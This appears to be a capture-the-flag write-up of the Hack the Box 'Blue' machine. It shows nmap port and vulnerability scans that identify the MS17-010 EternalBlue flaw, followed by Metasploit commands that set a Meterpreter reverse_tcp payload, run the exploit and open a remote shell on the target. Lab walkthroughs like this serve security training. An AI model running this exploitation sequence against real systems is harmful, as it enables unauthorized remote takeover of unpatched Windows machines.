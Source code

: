 # Hack the Box - Blue
```CSS
Machine IP: 10.10.10.40 - Windows

Vulenerability:
- MS17-010 EternalBlue CVE-2017-0143
```

- [NMAP Scans](#NMAP)
  - [TCP all ports](#TCP-All-Ports)
  - [TCP service version and default scripts](#Open-TCP-Ports-Service-Version-and-Default-Scripts)
  - [TCP port #445 safe scripts](#Port-445-Safe-Scripts)

- [Metasploit](#Metasploit)
  - [Search Exploit](#Search-Exploit)
  - [Exploit Options](#Exploit-Options)
  - [Reverse Shell](#Reverse-Shell)

## NMAP
### TCP All Ports
```CSS
▶ nmap -Pn -sS -p- 10.10.10.40 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.40                                        
Host is up (0.19s latency).                                             
Not shown: 65526 closed tcp ports (reset)                                                                                                        
PORT      STATE SERVICE                                                 
135/tcp   open  msrpc                                                   
139/tcp   open  netbios-ssn                                             
445/tcp   open  microsoft-ds                                            
49152/tcp open  unknown                                                 
49153/tcp open  unknown                                                 
49154/tcp open  unknown                                                                                                                          
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
                                    
Nmap done: 1 IP address (1 host up) scanned in 70.46 seconds
```

### Open TCP Ports Service Version and Default Scripts
```CSS
▶ nmap -sC -sV -p 135,139,445,49152-49157 10.10.10.40 -oN deep.nmap

Nmap scan report for 10.10.10.40                                                                                                           [0/21]
Host is up (0.18s latency).                                             
                                                                                                                                                 
PORT      STATE SERVICE      VERSION                           
135/tcp   open  msrpc        Microsoft Windows RPC                      
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn              
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)                                      
49152/tcp open  msrpc        Microsoft Windows RPC                      
49153/tcp open  msrpc        Microsoft Windows RPC                      
49154/tcp open  msrpc        Microsoft Windows RPC                      
49155/tcp open  msrpc        Microsoft Windows RPC                      
49156/tcp open  msrpc        Microsoft Windows RPC                      
49157/tcp open  msrpc        Microsoft Windows RPC                      
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows                                                                         
                                    
Host script results:   
| smb2-security-mode:  
|   210:                            
|_    Message signing enabled but not required              
| smb2-time:                                                                                                                                     
|   date: 2023-04-13T17:38:57                                           
|_  start_date: 2023-04-13T17:27:27
| smb-security-mode:       
|   account_used: guest             
|   authentication_level: user                                          
|   challenge_response: supported                                       
|_  message_signing: disabled (dangerous, but default)    
| smb-os-discovery:                                                                                                                              
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)                                                                  
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC                                             
|   NetBIOS computer name: HARIS-PC\x00           
|   Workgroup: WORKGROUP\x00                                            
|_  System time: 2023-04-13T18:38:56+01:00        
|_clock-skew: mean: -20m14s, deviation: 34m36s, median: -15s                                                                                     

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                   
Nmap done: 1 IP address (1 host up) scanned in 75.47 seconds
```

### Port 445 Safe Scripts
```CSS
▶ nmap -Pn -n -p 445 --script safe -oN safe.nmap

<---SNIP--->

| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

<---SNIP--->

# Nmap done at Thu Apr 13 23:22:33 2023 -- 1 IP address (1 host up) scanned in 106.08 seconds
```

---

## Metasploit
### Search Exploit
```CSS
msf6 > search eternalblue
```
![image](https://user-images.githubusercontent.com/83878909/231924001-a45f3cad-bd2e-4491-814f-2585eccf1cc8.png)


### Exploit Options
```CSS
> set payload windows/x64/meterpreter/reverse_tcp
> set LHOST tun0
> set RHOSTS 10.10.10.40
> exploit -j
```
![image](https://user-images.githubusercontent.com/83878909/231933782-b118443d-4573-44f1-92f4-8ba3a78df666.png)


### Reverse Shell
```CSS
> sessions -l
> sessions -i 1

meterpreter > shell
```
![image](https://user-images.githubusercontent.com/83878909/231934200-86eb56b0-d2e9-4841-8c24-4d411716b23e.png)

---


